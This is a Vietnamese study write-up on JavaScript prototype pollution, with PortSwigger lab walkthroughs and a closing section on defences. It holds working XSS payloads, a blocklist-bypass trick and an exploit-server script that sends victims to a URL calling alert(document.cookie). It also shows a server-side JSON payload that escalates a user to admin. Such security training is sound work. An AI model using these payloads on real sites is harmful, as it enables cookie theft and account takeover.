


# Prototype Pollution

---

## Prototype Pollution là cái gì?

JavaScript có một cơ chế gọi là **prototype chain**. Mọi object trong JS đều kế thừa properties từ prototype của nó. Ví dụ khi mình tạo `{}` thì nó tự động kế thừa từ `Object.prototype`.

Prototype Pollution xảy ra khi attacker có thể **inject property vào `Object.prototype`** (hoặc prototype của bất kỳ object nào). Một khi đã pollute được, thì **tất cả object** trong app đều bị ảnh hưởng — vì chúng đều kế thừa từ cái prototype đã bị điều chỉnh.

Mình hiểu thế này: giống như mình sửa bản gốc của một cái khuôn, thì tất cả sản phẩm đúc ra từ khuôn đó đều bị sai theo.

---

## Tại sao nó nguy hiểm?

Vì nó có thể dẫn tới:

- **XSS** — inject script qua DOM
- **Bypass authentication** — thêm property `isAdmin: true`
- **RCE** (Remote Code Execution) — trong một số trường hợp server-side (Node.js)
- **Denial of Service**

---

# Cách hoạt động — Hiểu qua code

Những function kiểu **merge/clone/extend** mà không sanitize key.

```jsx
function merge(target, source) {
  for (let key in source) {
    if (typeof source[key] === 'object') {
      if (!target[key]) target[key] = {};
      merge(target[key], source[key]);
    } else {
      target[key] = source[key];
    }
  }
}
```

Nếu attacker control được input:

```jsx
let malicious = JSON.parse('{"__proto__": {"isAdmin": true}}');
merge({}, malicious);

// Giờ thử:
let user = {};
console.log(user.isAdmin); // true
```

Vậy đó. `__proto__` chính là con đường dẫn tới `Object.prototype`. Merge vô là xong, mọi object mới tạo ra đều có `isAdmin = true`.

---

# 3 thành phần cần có để exploit Prototype Pollution

---

Prototype Pollution không phải cứ tìm được chỗ inject `__proto__` là exploit được. Muốn khai thác thành công thì cần đủ **3 thành phần**: Source, Sink, và Gadget. Thiếu một trong ba thì dừng lại, không đi tiếp được.

---

## 1. Source — Input

Source là bất kỳ input nào cho phép mình poison prototype object bằng arbitrary properties. Nói cách khác, đây là chỗ mình đưa payload vào.

Thường gặp nhất là những chỗ app nhận input rồi đẩy vào một hàm merge/extend/clone mà không filter key. Ví dụ:

- URL query string: `?__proto__[polluted]=true`
- JSON body trong POST request
- `location.hash`, `document.URL` rồi app tự parse

Cách xác nhận có source hay không: inject một property test như `?__proto__[testprop]=testval`, rồi mở Console kiểm tra `Object.prototype.testprop`. Nếu ra giá trị mình vừa inject thì confirmed — mình đã có source.

Có source rồi thì mới tính tiếp. Chưa có source thì chưa cần tìm gì thêm.

---

## 2. Sink — nơi thực thi

Sink là một JavaScript function hoặc DOM element cho phép thực thi code. Đây là điểm cuối mà nếu mình control được giá trị truyền vào thì có thể trigger hành vi nguy hiểm.

Một số sink phổ biến:

- `innerHTML` — gán HTML trực tiếp vào DOM, có thể chạy script
- `eval()` — thực thi string như code
- `document.write()` — ghi trực tiếp vào document
- `src` của `<script>` tag — load và thực thi script từ URL
- Template engine render (Handlebars, Pug, EJS) — phía server có thể dẫn tới RCE

Ai đã học qua XSS thì khái niệm sink không lạ. Prototype Pollution cũng dùng chung bộ sink đó, chỉ khác ở cách giá trị được đưa vào sink.

---

## 3. Gadget — Cầu nối

Đây là phần quan trọng nhất và cũng khó tìm nhất.

Gadget là một property được app đọc từ object rồi truyền thẳng vào sink mà **không qua bất kỳ bước filtering hay sanitization nào**. Nó chính là cầu nối giữa source và sink.

Ví dụ cụ thể: trong source code của app có đoạn như thế này:

```jsx
let scriptUrl = config.transport_url;
scriptElement.src = scriptUrl;
```

App đọc `transport_url` từ object `config`. Nếu `config` không có property `transport_url` được define sẵn, JavaScript sẽ tự leo lên prototype chain để tìm. Và nếu mình đã pollute `Object.prototype.transport_url = "data:,alert(1)//"` từ trước đó, thì giá trị này sẽ được lấy ra và gán vào `src` — sink kích hoạt, XSS thành công.

Trong trường hợp này, `transport_url` chính là gadget.

Cách tìm gadget: đọc source code, tìm những chỗ app đọc property từ object rồi đẩy vào sink. Grep các keyword như `innerHTML`, `src`, `eval`, `href`... rồi trace ngược lại xem giá trị đó lấy từ đâu. Nếu nó lấy từ một property mà mình có thể pollute được thì đó là gadget.

Tool hỗ trợ: **DOM Invader** trong Burp Browser có thể tự scan tìm gadget sau khi mình confirm pollution. Hoặc dùng **ppmap** — tool này chuyên tìm known gadget trong các thư viện JS phổ biến.

---

Source → Gadget → Sink. Đủ 3 cái thì exploit được. Thiếu một cái thì dừng lại, tìm hướng khác hoặc tìm tiếp cho đủ.

---

# Detect Prototype Pollution

**Manual:**

- Inject `__proto__[testprop]=123` qua mọi input có thể
- Check console: `Object.prototype.testprop`
- Dùng Burp Repeater thử từng endpoint

**Tools:**

- **ppfuzz** — fuzzer chuyên cho prototype pollution
- **ppmap** — tự tìm gadget sau khi confirm pollution
- **Burp Extension: Server-Side Prototype Pollution Scanner**
- **DOM Invader** (built-in trong Burp Browser) — rất tiện cho client-side

---

# Các vector tấn công phổ biến

### 1. Client-side (qua URL / DOM)

Thường gặp nhất là qua **URL parameters** hoặc **JSON input** mà app parse rồi merge vào object.

```
https://target.com/?__proto__[evilProperty]=evilValue
```

Hoặc qua `location.hash`, `document.URL`... rồi app tự parse.

### 2. Server-side (Node.js)

Khi server nhận JSON body rồi merge/extend mà không filter:

```json
{
  "__proto__": {
    "shell": "node",
    "NODE_OPTIONS": "--require /proc/self/environ"
  }
}
```

### 3. Qua constructor

Ngoài `__proto__`, còn có thể dùng:

```jsx
obj["constructor"]["prototype"]["polluted"] = true;
```

---

# Payload

Chôm chỉa trên GPT:

```jsx
// Cơ bản — test xem có vulnerable không
{"__proto__": {"polluted": "yes"}}

// Kiểm tra: tạo object mới rồi check
let test = {};
console.log(test.polluted); // "yes" => vulnerable!

// Qua constructor
{"constructor": {"prototype": {"polluted": "yes"}}}
```

Payload cho XSS (client-side):

```jsx
// Nếu app dùng innerHTML hoặc template engine
{"__proto__": {"innerHTML": ""}}

// Nếu app check transport_url hoặc tương tự
{"__proto__": {"transport_url": "data:,alert(1)//"}}

// Nếu app dùng Handlebars / Pug / EJS → có thể RCE luôn
```

---

# Lab Walkthrough — PortSwigger

---

## Client-Side

### Lab: Client-side prototype pollution via browser APIs

App bị dính DOM XSS thông qua client-side prototype pollution. Developer đã nhận ra có gadget nguy hiểm và đã patch lại — nhưng cách patch có thể bypass được. Nhiệm vụ là tìm source, tìm gadget, rồi chain lại để gọi `alert()`.

Mở lab bằng Burp Browser, thấy có search box. Search thử rồi qua HTTP History trong Burp xem traffic — app gửi GET `/` với param `search`, kèm POST `/logger`. Trong POST body thấy có param liên quan tới `constructor.prototype` và `__proto__`, app đang parse query string recursive.



View source, app load 2 file JS:

```html
<script src='resources/js/deparam.js'></script>
<script src='resources/js/searchLoggerConfigurable.js'></script>
```

`deparam.js` — parse query string thành object, hỗ trợ bracket notation `key[nested]`, **không filter key**. `__proto__` đi qua bình thường. Đây là **source**.

`searchLoggerConfigurable.js` mới là phần đáng chú ý:

```jsx
async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString()), transport_url: false};
    Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}
```

App tạo object `config` với `transport_url: false`, rồi dùng `Object.defineProperty()` lock `transport_url` thành non-configurable, non-writable. Nếu `config.transport_url` truth thì tạo `<script>` tag với `src = config.transport_url` rồi append vào DOM — đây là **sink**.

Nhìn qua thì tưởng an toàn vì `transport_url` đã bị lock, không ghi đè trực tiếp được. Nhưng developer mắc một lỗi: trong descriptor object (tham số thứ 3 của `Object.defineProperty()`), họ chỉ set `configurable` và `writable` mà **không set `value`**.

```jsx
Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
// không có value ở đây
```

Khi `value` không được define, JavaScript leo lên prototype chain tìm. Descriptor object cũng chỉ là plain object, kế thừa từ `Object.prototype`. Nên nếu mình pollute `Object.prototype.value` trước, descriptor sẽ kế thừa giá trị đó → `transport_url` được gán giá trị mình inject thay vì `false`. Đây là **gadget**.

Thử inject qua URL: `/?__proto__[value]=test`. Mở Console gõ `Object.prototype.value` — ra `"test"`. Pollute thành công.


Qua tab Elements, thấy `<script src="test">` xuất hiện trong DOM. `Object.defineProperty()` đã lấy `value` từ prototype gán cho `config.transport_url`, code phía dưới tạo script tag với src đó.


Quất payload XSS:

`/?__proto__[value]=data:,alert(1);//` 


Pop `alert(1)`, lab solved.

---

### Lab: DOM XSS via client-side prototype pollution

App bị DOM XSS qua client-side prototype pollution. Nhiệm vụ: tìm source, tìm gadget, chain lại gọi `alert()`. Bài này dùng DOM Invader cho nhanh.

Mở lab bằng Burp Browser. Chọn tab **DOM Invader** → bật DOM Invader lên → vào **Attack types** bật **Prototype pollution** → bấm **Reload**.


Mở DevTools (F12), chuyển qua tab **DOM Invader**, reload trang. DOM Invader tự scan và phát hiện 2 prototype pollution vector trong `search` property — query string.


Bấm **Test** thử một vector, nó mở tab mới và tự inject test property vào `Object.prototype`. Qua Console kiểm tra, thấy `Object.prototype` đã có `testproperty` với giá trị `DOM_INVADER_PP_POC`. Confirmed có source.


Quay lại tab trước, bấm **Scan for gadgets**. DOM Invader mở tab mới, bắt đầu scan tự động. Đợi scan xong, mở DevTools trong tab scan đó, chuyển qua tab DOM Invader.

DOM Invader tìm được gadget `transport_url` dẫn tới sink `script.src`. App đọc `transport_url` từ config object rồi gán vào `src` của `<script>` tag, mà `transport_url` không được define sẵn nên nó kế thừa từ prototype chain.


Bấm **Exploit**. DOM Invader tự generate proof-of-concept, mở tab mới và gọi `alert(1)`.


Lab solved. Payload final mà DOM Invader generate có dạng:

```
/?__proto__[transport_url]=data:,alert(1);//
```

Cả quá trình từ detect source → tìm gadget → exploit chỉ vài click. Nếu làm manual phải đọc source code, grep sink, thử từng property — DOM Invader làm hết trong vài giây.

---

### Lab: DOM XSS via an alternative prototype pollution vector

App bị DOM XSS qua client-side prototype pollution. Điểm khác biệt bài này: bracket notation `__proto__[foo]` không hoạt động, phải dùng dot notation `__proto__.foo`. Ngoài ra DOM Invader auto-exploit cũng không được luôn — phải chỉnh tay một chút.

Mở lab bằng Burp Browser. Bật DOM Invader, bật **Prototype pollution** trong Attack types, reload trang.


Mở DevTools → tab **DOM Invader**, reload. DOM Invader phát hiện **1 prototype pollution vector** trong `search` property (query string). Chỉ 1 vector thôi — khác với bài trước có 2, vì bài này chỉ dot notation mới pollute được.



Bấm **Scan for gadgets**. Tab mới mở ra, DOM Invader bắt đầu scan. Scan xong, mở DevTools trong tab scan, chuyển qua DOM Invader tab. DOM Invader tìm được gadget `sequence` dẫn tới sink `eval()`.


Bấm **Exploit**. Nhưng `alert(1)` không pop. DOM Invader auto-generated PoC bị lỗi syntax.

Quay lại tab trước, nhìn kỹ vào kết quả scan trong DOM Invader. Sau canary string, thấy có ký tự `1` bị append vào payload. Lý do là code trong `searchLoggerAlternative.js` có đoạn:

```jsx
let a = manager.sequence || 1;
manager.sequence = a + 1;
eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');
```

`manager.sequence` không được define sẵn, nên nó lấy giá trị từ prototype. Nhưng trước khi đẩy vào `eval()`, code cộng thêm `1` vào. Nên nếu mình pollute `sequence = alert(1)`, thì lúc vào eval nó thành `alert(1)1` — syntax error, không chạy được.

Fix: thêm dấu `-` vào cuối payload. Khi đó `alert(1)1` thành `alert(1)-1` — JavaScript parse `alert(1)` trước (gọi function, trả về `undefined`), rồi `undefined - 1` = `NaN`. Syntax hợp lệ, `alert(1)` vẫn được execute.

Bấm **Exploit** lần nữa. Tab mới load lên, thêm dấu `-` vào cuối URL rồi reload:

```
/?__proto__.sequence=alert(1)-
```


Pop `alert(1)`, lab solved.

Bài này dạy rằng DOM Invader không phải lúc nào cũng auto-exploit thành công. Nó tìm source và gadget rất nhanh, nhưng payload cuối vẫn có thể cần chỉnh tay — nhất là khi app thay đổi giá trị trước khi đẩy vào sink.

---

### Lab: Client-side prototype pollution via flawed sanitization

App bị DOM XSS qua client-side prototype pollution. Developer đã implement sanitization để chặn key nguy hiểm, nhưng cách sanitize bị lỗi — bypass dễ.

Mở lab bằng Burp Browser, thấy search box. View source, app load 2 file JS:

```html
<script src='resources/js/deparamSanitized.js'></script>
<script src='resources/js/searchLoggerFiltered.js'></script>
```


Mở `searchLoggerFiltered.js`, thấy có function `sanitizeKey()`:

```jsx
function sanitizeKey(key) {
    let badProperties = ['constructor','__proto__','prototype'];
    for(let badProperty of badProperties) {
        key = key.replaceAll(badProperty, '');
    }
    return key;
}
```

Function này lọc key bằng cách `replaceAll` — gặp `__proto__`, `constructor`, `prototype` thì xóa thành chuỗi rỗng. Nhưng nó chỉ chạy **một lần**, không recursive. Đây là lỗi.

Thử các vector thông thường trước: `?__proto__[foo]=bar`, `?__proto__.foo=bar`, `?constructor.prototype.foo=bar`. Mở Console check `Object.prototype` — không có gì. Sanitization đã chặn.


Bypass: vì `replaceAll` chỉ chạy 1 lần, mình lồng keyword vào trong chính nó. Khi sanitize xóa `__proto__` ở giữa, phần còn lại ghép lại thành `__proto__`:

```
__pro__proto__to__
      ↓ xóa __proto__ ở giữa
__proto__
```

Thử: `?__pro__proto__to__[foo]=bar`. Mở Console check `Object.prototype.foo` — ra `"bar"`. Bypass thành công, đã có **source**.


Nhìn tiếp trong `searchLoggerFiltered.js`, thấy **sink** quen thuộc:

```jsx
if(config.transport_url) {
    let script = document.createElement('script');
    script.src = config.transport_url;
    document.body.appendChild(script);
}
```

`transport_url` không được define sẵn trong `config`, nên nó sẽ lấy từ prototype chain. Gadget nằm ở đây.

Inject `transport_url` qua source đã bypass: `?__pro__proto__to__[transport_url]=Tam_dep_trai`. Qua tab Elements, thấy `<script src="Tam_dep_trai">` xuất hiện trong DOM.


Quất payload XSS:

```
/?__pro__proto__to__[transport_url]=data:,alert(1);
```


Pop `alert(1)`, lab solved.

Bài này cho thấy sanitize bằng blocklist + `replaceAll` chạy 1 lần không đủ. Chỉ cần lồng keyword vào nhau là bypass. Muốn chặn đúng phải sanitize recursive, hoặc dùng allowlist, hoặc `Object.freeze(Object.prototype)`.

---

### Lab: Client-side prototype pollution in third-party libraries

App bị DOM XSS qua client-side prototype pollution, nhưng gadget nằm trong **third-party library** với source code đã minified. Làm manual thì phải ngồi đọc hàng ngàn dòng code minified — nên bài này phải dùng DOM Invader. Khác mấy bài trước, bài này yêu cầu dùng **exploit server** để deliver payload tới victim, gọi `alert(document.cookie)`.

Mở lab bằng Burp Browser. Bật DOM Invader, bật **Prototype pollution** trong Attack types, reload.

Mở DevTools → tab **DOM Invader**, reload trang. DOM Invader phát hiện **2 prototype pollution vector** trong `hash` property — tức là URL fragment string (phần sau dấu `#`). Khác mấy bài trước dùng query string (`?`), bài này source nằm ở hash fragment.


Bấm **Scan for gadgets**. Tab mới mở ra, DOM Invader scan tự động. Scan xong, mở DevTools trong tab scan, chuyển qua DOM Invader tab. DOM Invader tìm được gadget `hitCallback` dẫn tới sink `setTimeout()`. `setTimeout()` khi nhận vào string sẽ thực thi string đó như JavaScript code — nên đây là sink nguy hiểm.


Bấm **Exploit**. DOM Invader tự generate PoC, mở tab mới và gọi `alert(1)`. Confirmed exploitable.


Giờ cần deliver payload tới victim. Tắt DOM Invader, vào **exploit server** của lab. Trong phần **Body**, craft payload redirect victim tới URL chứa prototype pollution qua hash fragment:

```html
<script>
    location="https://YOUR-LAB-ID.web-security-academy.net/#__proto__[hitCallback]=alert(document.cookie)"
</script>
```

Thay `YOUR-LAB-ID` bằng lab ID thật. Payload này khi victim truy cập exploit server, browser sẽ redirect tới app với hash fragment chứa `__proto__[hitCallback]=alert(document.cookie)`. App parse hash, pollute `Object.prototype.hitCallback`, third-party library đọc `hitCallback` rồi đẩy vào `setTimeout()` → XSS trigger, cookie của victim bị lộ.

`📸 [Chèn hình: Exploit server — body chứa payload]`

Bấm **View exploit** để test trên chính mình trước. Nếu `alert(document.cookie)` pop lên thì payload hoạt động. Quay lại exploit server, bấm **Deliver exploit to victim**.


Lab solved.

Bài này PortSwigger khuyến khích dùng DOM Invader vì gadget nằm trong library minified — tìm manual gần như không khả thi trong thời gian ngắn. DOM Invader scan và tìm được `hitCallback` → `setTimeout()` trong vài giây, thứ mà đọc source bằng mắt có thể mất hàng giờ.

---

## Server-Side

### Lab: Privilege escalation via server-side prototype pollution

Bài này chuyển sang **server-side** — khác hoàn toàn mấy bài client-side trước. Không có source code để đọc, không dùng DOM Invader được. Phải test tay.

App chạy trên Node.js + Express, bị server-side prototype pollution vì merge JSON input từ user mà không filter. Nhiệm vụ: pollute prototype để leo quyền admin, truy cập admin panel, xóa user `carlos`.

Login bằng `wiener:peter`, vào trang My Account. Có form update billing và delivery address. Điền thử rồi submit, qua Burp HTTP History tìm request `POST /my-account/change-address`.


Request gửi JSON body chứa thông tin address lên server. Response trả về JSON object đại diện user — chứa các property như `username`, `firstname`, `lastname`, address fields, và đặc biệt có `isAdmin: false`.


Gửi request sang **Repeater**. Thử inject `__proto__` vào JSON body để test xem server có vulnerable không:

```json
{
    "address_line_1": "Wiener HQ",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "sessionId": "...",
    "__proto__": {
        "foo": "bar"
    }
}
```

Send request. Nhìn response — object trả về có thêm property `"foo": "bar"` nhưng **không có** `__proto__`. Đây là dấu hiệu rõ ràng: server đã merge `__proto__` vào prototype, property `foo` được kế thừa qua prototype chain và hiện ra trong response. Confirmed server-side prototype pollution.


Giờ nhìn lại response, thấy `isAdmin: false`. Property này không phải own property của user object — nếu là own property thì mình không thể override qua prototype. Thử pollute `isAdmin` thành `true`:

```json
{
    "address_line_1": "Wiener HQ",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "sessionId": "...",
    "__proto__": {
        "isAdmin": true
    }
}
```


Send request. Response trả về `isAdmin: true`. Server đã kế thừa giá trị `isAdmin` từ polluted prototype.

Quay lại Burp Browser, refresh trang. Trên navbar xuất hiện link **Admin panel**. Vào admin panel, tìm user `carlos`, bấm delete.


Lab solved.


**Lưu ý:** Bài này là server-side nên DOM Invader không dùng được. Server-side prototype pollution khó detect hơn client-side vì không có source code, không có Console để check `Object.prototype`. Phải dựa vào response behavior — inject property rồi xem nó có xuất hiện trong response không, hoặc dùng các technique như status code override, JSON spaces override để detect gián tiếp. Bài này đơn giản vì polluted property **hiện trực tiếp trong response** — thực tế sẽ không dễ như vậy.

Cẩn thận khi test server-side prototype pollution trên môi trường thật: pollute sai property có thể **crash server** hoặc phá vỡ app. Trong lab có nút restart server, nhưng ngoài đời thì không có.

---

# Cách phòng chống

Đây là phần mình note lại để nhớ:

**1. Dùng `Object.create(null)`** — Tạo object không có prototype → không pollute được.

```jsx
let safeObj = Object.create(null);
```

**2. Freeze prototype**

```jsx
Object.freeze(Object.prototype);
```

Cái này hơi aggressive nhưng hiệu quả. Chặn mọi modification lên prototype.

**3. Filter key nguy hiểm** — Trong mọi merge/extend function, luôn check:

```jsx
if (key === '__proto__' || key === 'constructor' || key === 'prototype') {
  continue; // skip
}
```

**4. Dùng `Map` thay vì plain object** — `Map` không bị ảnh hưởng bởi prototype chain.

**5. Dùng `Object.hasOwn()` hoặc `hasOwnProperty`** — Khi iterate qua object, chỉ xử lý own properties:

```jsx
for (let key in obj) {
  if (Object.hasOwn(obj, key)) {
    // safe
  }
}
```

**6. Validate input** — Dùng schema validation (Joi, Zod...) để chặn key bất thường từ đầu.

---